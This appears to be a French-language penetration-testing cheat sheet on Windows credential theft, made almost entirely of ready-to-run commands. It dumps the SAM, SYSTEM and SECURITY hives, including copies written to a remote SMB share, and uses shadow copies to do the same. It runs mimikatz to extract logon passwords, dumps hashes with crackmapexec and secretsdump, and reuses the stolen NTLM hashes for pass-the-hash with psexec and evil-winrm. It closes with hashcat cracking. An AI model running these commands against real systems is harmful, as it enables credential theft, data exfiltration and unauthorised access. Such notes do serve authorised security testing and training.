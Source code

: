 ```yaml
---
public: true
---
```


## Localement
### Récupération de la SAM

```
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save

SET TARGET=172.16.5.225
reg save hklm\sam \\%TARGET%\share\sam.save
reg save hklm\system \\%TARGET%\share\system.save
reg save hklm\security \\%TARGET%\share\security.save

```

Création d'un cliché instantané si besoin

```shell
wmic shadowcopy call create Volume="C:\"
```

Liste des clichés disponibles

```shell
vssadmin.exe list shadows # Noter la ligne 'Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3'

mkdir C:\temp
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SYSTEM C:\temp\SYSTEM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SAM C:\temp\SAM
```

### Mimikatz

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
mimikatz.exe "privilege::debug; sekurlsa::logonpasswords; exit" >> mimikatz_output.txt

**powershellz** \\172.16.5.225\share\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit
```

## A distance

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --sam
```

## Extraction des Hashs

### SAM

```
secretsdump.py local -sam sam.save -security security.save -system system.save LOCAL
```

## Utilisation des Hash LM:NT
### Accès distant

``` shell 
psexec.py Administrator@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administrator@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
# on peut également utiliser wmiexec.py et smbexec.py ou encore evil-winrm
evil-winrm -i $TARGET_IP -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

### Cassage des hashs avec hashcat

```
cat hash.txt
64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
...

sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```
